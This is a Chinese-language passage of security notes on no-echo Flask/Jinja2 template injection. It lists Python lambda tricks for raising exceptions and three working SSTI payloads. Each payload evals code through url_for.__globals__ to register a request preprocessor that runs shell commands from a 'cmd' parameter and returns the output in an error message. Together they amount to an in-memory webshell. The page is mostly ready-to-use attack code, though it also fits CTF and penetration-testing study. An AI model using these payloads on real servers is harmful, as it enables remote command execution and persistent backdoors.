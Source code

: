 **无回显的解决方法**
#### 2.1 Debug模式抛出异常
利用异常来抛出回显，Python lambda 表达式中是不能直接`raise Exception`或者`try-except`可以使用下面的方法来在 lambda 表达式抛出异常，如果是在实战中的，异常可能会被日志记录。
[Just a moment...](https://stackoverflow.com/questions/8294618/define-a-lambda-expression-that-raises-an-exception)

##### 2.1.1 方法一
创建一个生成器对象，调用throw方法来引发异常
```python
lambda : (_ for _ in ()).throw(Exception('this is a tuple exception 11'))
lambda : [][_ for _ in ()].throw(Exception('this is a list exception'))
lambda : {_: _ for _ in ()}.values().__iter__().throw(Exception('this is a dict exception'))
```
```python
{{ url_for.__globals__['__builtins__']['eval'](
"
app.url_value_preprocessors[None].append(lambda ep, args: (_ for _ in ()).throw(Exception(__import__('os').popen(request.args.get('cmd')).read())) if 'cmd' in request.args.keys()  else None)
", 
{'request':url_for.__globals__['request'], 'app':url_for.__globals__['current_app']}) }}
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717772515182-e0beb2e5-71ed-4357-9670-9427a58a443a.png#averageHue=%23deb77a&clientId=u15af632c-5e6d-4&from=paste&height=375&id=u69650e88&originHeight=469&originWidth=1017&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=53828&status=done&style=none&taskId=ua61db88d-309a-4478-95f3-953dff348e8&title=&width=813.6)

##### 2.1.2 方法二
通过一定会抛出异常的错误表达式来强行抛出异常，选择可以回显的
```python
lambda : 1/0
lambda : [][0]
lambda : {}['8sd***r']
lambda : int('aaa') # 回显有长度限制
lambda : float('aaa')
lambda : getattr(object, 'nonexistent_attribute')
```
```python
{{ url_for.__globals__['__builtins__']['eval'](
"
app.url_value_preprocessors[None].append(lambda ep, args : {}[__import__('os').popen(request.args.get('cmd')).read()]  if 'cmd' in request.args.keys() else None)
", 
{'request':url_for.__globals__['request'], 'app':url_for.__globals__['current_app']}) }}
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717772727950-ffa61216-628b-4806-a0d7-9e44424b60ea.png#averageHue=%23d7a868&clientId=u15af632c-5e6d-4&from=paste&height=497&id=uea7e8f58&originHeight=621&originWidth=1170&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=131038&status=done&style=none&taskId=u31911d3b-b0d2-4bf9-afe8-4e85198a692&title=&width=936)

##### 2.1.3 方法三
通过exec执行语句
```python
lambda : exec('raise(Exception("this is an exception"))')
```
```python
{{ url_for.__globals__['__builtins__']['eval'](
"
app.url_value_preprocessors[None].append(lambda ep, args: exec('raise(Exception(__import__(\'os\').popen(request.args.get(\'cmd\')).read()))') if 'cmd' in request.args.keys() is not None else None)
", 
{'request':url_for.__globals__['request'], 'app':url_for.__globals__['current_app']}) }}
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717772968453-75fd8739-e3bc-46f0-adab-3c53bf3c46f8.png#averageHue=%23deba7e&clientId=u15af632c-5e6d-4&from=paste&height=373&id=ua4804f9d&originHeight=466&originWidth=1036&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=55119&status=done&style=none&taskId=ue183bb2f-61f3-4902-a2d2-ef209d8d459&title=&width=828.8)
